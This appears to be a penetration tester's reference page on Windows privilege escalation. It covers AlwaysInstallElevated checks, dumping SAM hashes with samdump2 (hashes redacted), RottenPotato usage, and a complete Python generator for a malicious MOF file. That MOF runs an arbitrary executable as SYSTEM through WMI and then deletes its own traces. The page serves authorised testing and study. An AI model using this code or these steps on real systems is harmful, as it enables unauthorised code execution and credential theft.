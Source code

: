 # Privilege Escalation

## AlwaysInstallElevated

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Privesc/README.md) contains a few helper functions to make exploiting this easy:

```text
Get-RegistryAlwaysInstallElevated
Write-UserAddMSI 
```

Metasploit has [exploit/windows/local/always\_install\_elevated](https://www.rapid7.com/db/modules/exploit/windows/local/always_install_elevated) which you can use in a similar manner.

#### **References**

[AlwaysInstallElevated \(Windows\)](https://msdn.microsoft.com/en-us/library/windows/desktop/aa367561%28v=vs.85%29.aspx)  
[pentestlab - AlwaysInstallElevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)

## SAM File

```bash
root@kali:/tmp# samdump2 System SAM
Administrator:500:REDACTED:REDACTED:::
*disabled* Guest:501:REDACTED:REDACTED:::
*disabled* HelpAssistant:1000:REDACTED:REDACTED:::
*disabled* SUPPORT_388945a0:1002:REDACTED:REDACTED:::
```

## MOF Files

These are useful in the event of an arbitrary read/write on the file system as a SYSTEM User.  For this to work the OS must be XP or lower.  In effect, a MOF file written to `%SystemRoot%\System32\wbem\mof\`, will be compiled automatically by the OS, and allows arbitrary code execution.  A good overview of MOF files themselves is [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html).

To check for compilation success/failure, look for the file within `%SystemRoot%\System32\wbem\mof\good\`and `%SystemRoot%\System32\wbem\mof\bad\` respectively.

Below is a python version of metasploit's [wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) for executing a file in the System32 folder.

```python
def genMof(mofName, exe):
    classname = str(randint(0, 9999))
    mof = """#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass{class}
{
      [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
     [key] string Name;
      [not_null] string ScriptingEngine;
      string ScriptFileName;
      [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"{exename}\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass{class}\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"{exename}\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass{class}\\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"{exename}\\"";
  QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass{class} as $MyClass
{
  Name = "ClassConsumer";
};"""
    mof = sub('{class}', classname, mof)
    mof = sub('{exename}', exe, mof)
    mof = sub('{mofname}', mofName, mof)
    return mof
```

#### References

[Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
[How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)  
[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb)

## RottenPotato

```text
whoami /priv

```

{% embed url="https://github.com/decoder-it/lonelypotato" %}

```bash
C:\>lonely.exe * shell.exe
```

#### References

[decoder-it\lonelypotato](https://github.com/decoder-it/lonelypotato)



